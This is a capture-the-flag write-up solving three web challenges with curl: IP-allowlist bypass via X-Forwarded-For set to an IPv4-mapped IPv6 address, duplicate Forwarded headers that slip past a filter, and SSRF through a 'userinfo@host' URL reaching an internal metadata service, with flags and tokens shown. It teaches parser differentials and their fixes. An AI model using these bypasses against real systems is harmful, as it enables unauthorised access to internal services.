






# Three Parsers Walk Into `/admin`

## 1. The Jump

Target:

```text
https://the-jump.onrender.com/
```

The homepage is the first hint. It is not decorative text. It tells us the challenge is location-sensitive.

```bash
curl -i 'https://the-jump.onrender.com/'
```

```http
HTTP/1.1 200 OK

Internal Operations Portal
The console is reserved for staff connecting from the corporate network.
```



At this point I know two things:

- the interesting resource is the operations console, linked as `/admin`
- the app does not care who I am yet, it cares where it thinks I am coming from

So the natural follow-up is the linked `/admin` console.

```bash
curl -i 'https://the-jump.onrender.com/admin'
```

```http
HTTP/1.1 403 Forbidden

The Operations Console is available to staff on the corporate network only.
```

That error is useful. The route exists, the request reaches application logic, and the denial is about network origin. In apps behind reverse proxies, "client IP" often comes from proxy headers, not directly from the TCP socket the backend sees.

I also gave the `Referer` header a quick try here, just in case the app was doing something loose with "where the user came from". It made no difference. That makes sense in hindsight: `Referer` is about the previous page, not the client network location, and the app either did not trust it or simply was not using it for this decision.

The first primitive to test is `X-Forwarded-For`.

### What `X-Forwarded-For` is doing

`X-Forwarded-For` is the classic proxy header for preserving the original client IP through a proxy chain. A normal value looks like this:

```http
X-Forwarded-For: client, proxy1, proxy2
```

The safe version of this setup is:

1. the public edge proxy strips any incoming `X-Forwarded-For` sent by the client
2. the edge proxy adds its own trusted value
3. the backend only trusts that value because it came from the edge

The unsafe version is:

1. the public client sends `X-Forwarded-For`
2. the edge forwards it as-is
3. the backend uses it for an IP allowlist

Then the client is basically choosing its own return address on the envelope.

### The obvious idea failed

I tried the normal private IP shapes first:

```bash
curl -i \
  -H 'X-Forwarded-For: 10.0.0.1' \
  'https://the-jump.onrender.com/admin'
```

```http
HTTP/1.1 403 Forbidden
x-request-blocked: 1

Request Blocked
```

Same idea with `127.0.0.1` also got blocked.


This is where the error split mattered:

| Probe | Result | Meaning |
| --- | --- | --- |
| no spoofed header | normal app 403 | the app says "not corporate" |
| `X-Forwarded-For: 10.0.0.1` | `x-request-blocked: 1` | an earlier policy layer caught the literal private IPv4 |
| `X-Forwarded-For: 127.0.0.1` | `x-request-blocked: 1` | loopback is also on the filter's radar |

So the app is probably still trusting the header somewhere, but a filter in front of it deletes the obvious strings.

And that is the whole crack: blocking strings is not the same as blocking addresses.

### IPv4 over IPv6

IPv6 has an IPv4-mapped representation:

```text
::ffff:x.x.x.x
```

The last 32 bits are the IPv4 address. For `10.0.0.1`, the bytes are:

```text
0a 00 00 01
```

Group those into 16-bit IPv6 chunks:

```text
0a00:0001
```

Compress it:

```text
a00:1
```

So `10.0.0.1` can also be written as:

```text
::ffff:a00:1
```

There is no magic in the IPv6 spelling. It is the same address going through two different interpretations:

| Layer | What it sees |
| --- | --- |
| filter | text that does not look like `10.0.0.1` |
| application IP parser | an IPv4-mapped address that lands in the internal range |

Final curl:

```bash
curl -sS \
  -H 'X-Forwarded-For: ::ffff:a00:1' \
  'https://the-jump.onrender.com/admin' | grep -o 'itc{[^}]*}'
```

```text
itc{3asy_st4art_duhewfi}
```



The fix is not "add this one IPv6 spelling to the blacklist". The fix is to stop trusting public client-supplied proxy headers, or normalize the address into one canonical IP object before any allowlist or denylist decision.

## 2. Filtered

Target:

```text
https://filtered-3rwy.onrender.com/
```

The second homepage basically says: yes, the last bug happened, and yes, someone patched something.

```bash
curl -i 'https://filtered-3rwy.onrender.com/'
```

```http
HTTP/1.1 200 OK

Following last quarter's incident review, access to the operations console
has been rebuilt around a stricter policy checkpoint.
```



The resource is still the operations console, and the logic is still location based. But the first challenge's exact header is probably dead.

So I tested the old attempt anyway, because failed probes are data:

```bash
curl -i \
  -H 'X-Forwarded-For: ::ffff:a00:1' \
  'https://filtered-3rwy.onrender.com/admin'
```

```http
HTTP/1.1 403 Forbidden

The Operations Console is available to staff on the corporate network only.
```

This is not the `x-request-blocked` denial. It is the normal app-level denial. That tells us `X-Forwarded-For` is no longer giving us the client IP the app uses for access, or it is being ignored/stripped now.

Next suspect: `Forwarded`.

### What `Forwarded` changes

`Forwarded` is the standardized version of proxy forwarding metadata. Instead of only a loose IP list, it has parameters:

```http
Forwarded: for=203.0.113.7;proto=https;host=example.com
```

The common parameters are:

| Parameter | Meaning |
| --- | --- |
| `for` | original client |
| `by` | proxy that handled the request |
| `proto` | original scheme, like `http` or `https` |
| `host` | original host |

Two details make this header a good place for parser bugs:

- one `Forwarded` value can contain multiple semicolon-separated parameters
- multiple forwarded elements can exist, usually comma-separated, and repeated physical headers can also appear on the wire

In theory, everyone agrees on the grammar. In practice, the filter, the reverse proxy, and the framework may not expose the same final value to application code.

### The direct `Forwarded` attempt failed

```bash
curl -i \
  -H 'Forwarded: for=::ffff:a00:1' \
  'https://filtered-3rwy.onrender.com/admin'
```

```http
HTTP/1.1 403 Forbidden
x-request-blocked: 1

Request Blocked
```

So the primitive is not simply "switch from `X-Forwarded-For` to `Forwarded`". The checkpoint understands a direct internal-looking `for=` value and blocks it.

I also tested the comma form, because RFC-style lists are often merged there:

```http
Forwarded: proto=http;by=203.0.113.43, for=::ffff:a00:1
```

That was blocked too.

At this point the question becomes: which copy does the filter inspect, and which copy does the app later use?


### The duplicate header issue

The working request used two physical `Forwarded` headers:

```http
Forwarded: proto=http;by=203.0.113.43
Forwarded: for=::ffff:a00:1
```

The first one is boring and safe. It has no `for=` claim. The second one carries the internal IPv4-mapped address.

The final curl:

```bash
curl -sS \
  -H 'Forwarded: proto=http;by=203.0.113.43' \
  -H 'Forwarded: for=::ffff:a00:1' \
  'https://filtered-3rwy.onrender.com/admin' | grep -o 'itc{[^}]*}'
```

```text
itc{4_h4ard3r_f1lt3r_f0r_th1s_d4nc3}
```



The useful detail is that mixed casing was not the real trick. HTTP header names are case-insensitive, and live testing showed the same casing worked too. The order mattered more:

| Probe | Result |
| --- | --- |
| single `Forwarded: for=::ffff:a00:1` | blocked by policy |
| comma-joined harmless + internal-looking value | blocked by policy |
| two physical headers, harmless first, internal-looking second | worked |
| internal-looking first, harmless second | blocked |

That points to an order-sensitive parser differential. My read is:

- the filter checks the first exposed `Forwarded` value, sees no internal-looking `for=`, and lets the request through
- the authorization logic later extracts the effective `for=` value from the repeated headers and lands on the second one

Maybe the actual implementation is "first header vs last header". Maybe it is "array element inspected vs joined string parsed". The important part is not the exact framework internals. The important part is that duplicated forwarding metadata had two different meanings depending on which layer touched it.

This is why repeated headers get messy in security-sensitive code. HTTP lets repeated fields exist. Some components join them with commas. Some keep the first. Some keep the last. Some expose arrays. If the WAF-ish checkpoint and the app do not share one normalized representation, a harmless-looking value can pass the first check while a later value is the one the app actually uses.

The patch closed the first spelling, but the trust boundary was still wrong: public users could still influence "where the request came from".

## 3. Anabasis

Target:

```text
https://throughfall-anabasis.onrender.com/
```

This one changes genre. We are not directly browsing an internal admin console anymore. The homepage tells us the app is a URL preview service.

```bash
curl -i 'https://throughfall-anabasis.onrender.com/'
```

```http
HTTP/1.1 200 OK

URL Preview Service
GET /preview?url=<target>
Service topology is published at /status.
```



So the solve path is not guessing random endpoints. The page gives us the sink and the map:

- `/preview?url=<target>` makes the server fetch a URL
- `/status` tells us what internal service exists

First I checked the map:

```bash
curl -sS 'https://throughfall-anabasis.onrender.com/status'
```

```json
{
  "internal_services": [
    {
      "endpoint": "http://127.0.0.1:8081/",
      "name": "metadata"
    }
  ],
  "service": "url-preview"
}
```

That is most of the challenge laid out in the open. There is a local metadata service at `127.0.0.1:8081`, and the public app has a feature that fetches URLs.

That is SSRF territory.

### What SSRF means in this challenge

SSRF is not "I visit localhost from my browser". My browser's `127.0.0.1` is my own machine.

Here, the preview server is the one making the request. So if I can make it fetch:

```text
http://127.0.0.1:8081/metadata
```

then `127.0.0.1` means localhost from the server's point of view. That reaches the internal metadata service sitting beside the preview app.

The direct attempt gets blocked:

```bash
curl -sS \
  'https://throughfall-anabasis.onrender.com/preview?url=http://127.0.0.1:8081/metadata'
```

```json
{
  "error": "request blocked: destination not permitted",
  "url": "http://127.0.0.1:8081/metadata"
}
```

Good defense shape, at least at first glance. The app is checking destinations and rejecting loopback.

I also tried `rbndr.us` around this point, because DNS rebinding-style tricks are always worth a quick check in SSRF challenges. It did not land. My best guess is port selection: the internal service lived on `127.0.0.1:8081`, not the normal HTTP or HTTPS ports, so that path never lined up with the service I needed. If the internal app had been sitting on `80` or `443`, that could have been a very funny unintended solve.

But because this whole series is about parser disagreement, the next thing to test was not "another endpoint". It was another valid URL spelling.

### The `userinfo@host` trick

URLs can contain userinfo before the host:

```text
scheme://userinfo@host/path
```

So in this URL:

```text
http://any@127.0.0.1:8081/metadata
```

the host is still:

```text
127.0.0.1
```

The `any` part is userinfo. It is not the hostname.


The bug happens when the validator extracts the host with string splitting instead of using the same URL parser as the HTTP client. A common broken pattern is mentally like:

```text
take whatever comes after "://"
stop at ":" or "/"
call that the host
```

That parser might look at:

```text
http://any@127.0.0.1:8081/metadata
```

and approve `any`, because `any` is not private and not loopback.

The real HTTP client parses the URL grammar correctly:

| Parser | Host it effectively uses |
| --- | --- |
| naive validator | `any` |
| real HTTP client | `127.0.0.1` |

Same input, two interpretations, internal service reached.

### Step 1: read metadata

```bash
curl -sS \
  'https://throughfall-anabasis.onrender.com/preview?url=http://any@127.0.0.1:8081/metadata'
```

```json
{
  "body":"{\"note\":\"present this token to /admin/flag as ?token=\",\"token\":\"b48f5a9ce22698e88f5d132e82afa4e3\"}\n",
  "status":200,
  "url":"http://any@127.0.0.1:8081/metadata"
}
```

That response proves the SSRF worked. At that point the external filter was no longer the main problem. The server fetched the internal metadata service and copied the response back.

Also, the token step is useful triage. If the internal endpoint says "missing token" or "invalid token", that can still mean the SSRF is working. The network boundary is crossed; the remaining problem is just the internal app's own logic.

The token can rotate, so the real method is: fetch `/metadata`, parse the returned token, then use that token on the internal admin route `/admin/flag`.

### Step 2: use the token on the internal admin route

```bash
curl -sS \
  'https://throughfall-anabasis.onrender.com/preview?url=http://any@127.0.0.1:8081/admin/flag?token=5bbf2c858d8464a23c56560cb1501ccc'
```

```json
{
  "body": "{\"flag\":\"itc{4_c0v3r_f0r_4_h1gh3r_f0rm}\"}\n",
  "status": 200,
  "url": "http://any@127.0.0.1:8081/admin/flag?token=5bbf2c858d8464a23c56560cb1501ccc"
}
```




## Flags

```text
itc{3asy_st4art_duhewfi}
itc{4_h4ard3r_f1lt3r_f0r_th1s_d4nc3}
itc{4_c0v3r_f0r_4_h1gh3r_f0rm}
```

